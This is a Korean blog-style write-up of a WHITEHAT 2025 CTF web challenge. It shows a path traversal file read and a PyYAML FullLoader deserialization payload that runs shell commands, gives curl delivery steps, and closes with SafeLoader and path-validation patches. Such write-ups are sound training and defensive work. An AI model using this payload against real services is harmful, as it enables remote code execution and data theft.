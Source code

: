 ```yaml
---
title: ["[WHITEHAT 2025 qual CTF- web] Scenario"]
date: 2025-10-19 09:00:00 +0900
last_modified_at: 2025-10-19 09:00:00 +0900
categories: [writeup, ctf]
tags: [web, path traversal, deserializaion, RCE]
---
```


## 문제 설명
### 시나리오
> 최근 정보 공개 서비스를 출시한 공공기관의 웹 서버에서 비정상적인 행동을 감지하였습니다. 취약점 평가 및 검사 전문가로 고용되어 조사를 수행하게 되었습니다. 서버의 취약점과 백도어를 찾아 제거하고, 이를 통해 공격자에 대한 정보를 파악해주세요.

### 설명
> 웹 서버에서 실행되는 유일한 서비스가 정보 공개 서비스이므로, 이 서비스가 서버 공격의 경로였을 것으로 추정됩니다. 이 정보 공개 서비스의 취약점을 입증해주세요. 웹 서비스는 app.py에서 운영되고 있습니다.

## 접근 방법
Dockerfile을 포함한 코드가 주어지지 않는 문제였다.  
제공된 서버에 사용자의 입력이 인젝션되는 포인트부터 찾아나가면 된다.  

`/download?file=traffic.json`과 같은 형태로 공공 데이터를 제공해주는 서버인데,  
해당 경로로 local file을 다운로드 할 수 있는 취약점이 있었다.  

취약점을 이용해 문제를 구성하는 `app.py`, `files.py`, `theme.py`, `Dockerfile`을 다운로드 받았다.

```
# Dockerfile
# ...
COPY . $APP_HOME 
RUN FLAG_CONTENT=$(cat $APP_HOME/flag.txt) && \ 
    echo "$FLAG_CONTENT" > "/$FLAG_CONTENT" && \ 
    chmod 400 "/$FLAG_CONTENT" && \ 
    chown root:root "/$FLAG_CONTENT" && \ 
    rm $APP_HOME/flag.txt 
# ...
```

 컨테이너를 빌드할 때, `/app/flag.txt`의 내용을 읽어 그 내용과 동일한 이름의 파일을 루트에 만든다.  
 즉, flag는 파일의 이름이다.  

 Bruteforcing을 하지 않는 이상, `files.py`의 LFI로만은 접근하기 어렵다.  
 RCE 포인트를 찾아야 한다.  

 `theme.py`의 `/api/theme/preview` 엔드포인트에서,  

 ```python
parsed: Any = yaml.load(body, Loader=yaml.FullLoader)
```  

해당 부분이 YAML Deserialization 취약점이 있다. `yaml.FullLoader`는 Python 객체를 deserialization할 수 있어, RCE가 가능하다.  

## Exploitation
### Payload
PyYAML의 `!!python/object/new` 태그를 사용하여 임의의 Python 코드를 실행할 수 있다.  

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('ls -la / >/tmp/f')"]
```  

- `!!python/object/new:tuple`: 새로운 tuple 객체 생성
- `!!python/name:eval`: Python의 eval 함수 호출
- `__import__('os').system()`: os 모듈을 import하여 시스템 명령 실행
- `ls -la /`: 루트 디렉토리의 파일 목록 조회
- `>/tmp/f`: 결과를 /tmp/f 파일에 저장

### Payload Delivery
```bash
cat > payload.yaml << 'EOF'
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('ls -la / >/tmp/f')"]
EOF

curl -X POST http://[HOST]/api/theme/preview \
  -H "Content-Type: application/x-yaml" \
  --data-binary @payload.yaml
```

### Confirming Result by LFI
```bash
curl "http://[HOST]/download?file=../../tmp/f"
```

## 취약점 패치
### YAML Deserialization 취약점
```python
parsed: Any = yaml.load(body, Loader=yaml.FullLoader)
```  
**취약점:**  
- `yaml.FullLoader`는 Python 객체를 역직렬화할 수 있음
- 공격자가 제어하는 YAML 데이터로 임의 Python 코드 실행 가능
- Body 길이 제한(128bytes)이 있지만, 짧은 payload로 우회 가능

**패치:**  
```python
parsed: Any = yaml.load(body, Loader=yaml.SafeLoader) # safeloader 사용
```  
SafeLoader는 `dict`, `list`, `str`, `int`, `float`, `bool`, `None` 등의 기본 데이터 타입만 허용한다.  
만약 SafeLoader를 사용했다면, 페이로드를 사용해도 `yaml.constructor.ConstructorError` 예외가 발생해서 RCE가 되지 않았을 것이다.  
또한, 꼭 YAML이 필요하지 않다면, JSON을 사용하는게 더 안전할 수 있다.  


### Directory Traversal 취약점
```python
def download_file():
    rel = request.args.get("file", "")
    full_path = os.path.join(BASE_DIR, rel)

    if not os.path.exists(full_path):
        return Response("File not found", status=404)

    if not os.path.isfile(full_path):
        return Response("Path is not a file", status=400)

    try:
        return send_file(full_path)
```  
**취약점:**  
원본 코드에서는 사용자 입력을 그대로 파일 경로로 사용하여 `../../`같은 directory traversal 공격이 가능했다.  

**패치:**  
```python
if ".." in rel or rel.startswith("/") or rel.startswith("\\\\"):
    return Response("Invalid file path", status=400)

full_path = os.path.join(BASE_DIR, rel)

# 경로 정규화 및 검증
full_path = os.path.realpath(full_path)
base_real = os.path.realpath(BASE_DIR)
if not full_path.startswith(base_real + os.sep):
    return Response("Invalid file path", status=400)
```

- `..` 문자열 포함, `/`로 시작하는 절대 경로 차단, `\\`로 시작하는 절대 경로 차단
- `os.path.realpath()`: 심볼릭 링크 해석 및 canonicalization
- `.`,`..`, 중복된 `/` 등을 제거하여 실제 경로를 계산
- 정규화된 전체 경로가 BASE_DIR 내부에 있는지 확인